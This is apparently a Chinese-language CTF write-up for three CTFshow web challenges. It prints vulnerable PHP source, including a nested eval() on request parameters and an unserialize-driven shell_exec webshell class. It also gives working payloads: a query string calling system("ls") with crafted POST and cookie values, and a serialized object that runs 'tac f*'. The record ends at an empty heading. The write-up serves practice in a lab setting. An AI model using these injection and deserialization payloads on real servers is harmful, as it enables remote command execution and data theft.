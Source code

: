 # Web_菜狗杯

## web签到

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 09:38:59
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
highlight_file(__FILE__);

eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

一个非常非常套娃的题目，首先看里面，要执行一个命令。

这个命令的组成为：

1. 一个含GET请求的REQUEST
2. 这个GET请求包含着的是一个POST值
3. POST值为CTFshow-QQ群:为名的cookie值。

在这段主体后面还会加上607580944数字。

构造payload如下：

```
?b=c&c[0]=1&c[6][0][7][5][8][0][9][4][4]=system("ls");
POST:a=b
Cookie:CTFshow-QQ%E7%BE%A4%3A=a
```

得到flag。



## webshell

```
 <?php 
    error_reporting(0);

    class Webshell {
        public $cmd = 'echo "Hello World!"';

        public function __construct() {
            $this->init();
        }

        public function init() {
            if (!preg_match('/flag/i', $this->cmd)) {        #这里的i表示忽略大小写
                $this->exec($this->cmd);
            }
        }

        public function exec($cmd) {
            $result = shell_exec($cmd);
            echo $result;
        }
    }

    if(isset($_GET['cmd'])) {
        $serializecmd = $_GET['cmd'];
        $unserializecmd = unserialize($serializecmd);
        $unserializecmd->init();
    }
    else {
        highlight_file(__FILE__);
    }

?> 

```

提供的代码是一个PHP脚本，看起来是一个Webshell。Webshell是一种恶意脚本，可以上传到Web服务器上，以获取未经授权的访问和对服务器的控制。它允许攻击者在服务器上执行任意命令，并可能进行恶意活动。

让我们逐步分解代码：

error_reporting(0) 这一行将错误报告级别设置为0，这意味着不会显示任何PHP错误或警告。这通常在恶意脚本中使用，以隐藏可能暴露Webshell存在的任何错误。

代码定义了一个名为 Webshell 的类。它有一个公共属性 $cmd，其初始值为 'echo "Hello World!"'。

__construct() 方法是类的构造函数，它调用 init() 方法。

init() 方法检查 $cmd 变量中的字符串是否不包含大小写不敏感的子字符串 "flag"。如果条件为真，则调用 exec() 方法，传递 $cmd 的值。

exec() 方法使用 shell_exec() 函数执行命令，并将结果打印输出。

如果通过GET请求传递了名为 cmd 的参数，代码将尝试对参数进行反序列化，并调用 $unserializecmd->init() 方法。否则，代码将显示自身的源代码

根据代码逻辑
创建一个Webshell类的实例$test
然后通过_construct()函数传入cmd的参数，这里设置cmd=ls
最后使用 serialize() 函数将该实例序列化并输出。

```
<?php
	$test = new Webshell();
	$test->cmd = "tac f*";
	$serialize = serialize($test);
	echo $serialize;
?>
```

生成结果为：O:8:"Webshell":1:{s:3:"cmd";s:6:"tac f*";} 

payload:?cmd=O:8:"Webshell":1:{s:3:"cmd";s:6:"tac f*";} 

直接出flag。

![](.\图片\webshell.png)

## taptaptap

进入环境发现是一个游戏，那就F12看源码

然后会发现源码会提示你去看一下habibiScript.js，打开，会看到很多代码

在game engine中发现这两行

```
console.log(atob('WW91ciBmbGFnIGlzIGluIC9zZWNyZXRfcGF0aF95b3VfZG9fbm90X2tub3cvc2VjcmV0ZmlsZS50eHQ='));
      alert(atob('WW91ciBmbGFnIGlzIGluIC9zZWNyZXRfcGF0aF95b3VfZG9fbm90X2tub3cvc2VjcmV0ZmlsZS50eHQ='));
```

解码这个base64，得到Your flag is in /secret_path_you_do_not_know/secretfile.txt

直接访问即可得到flag。

![](.\图片\taptaptap.png)



## 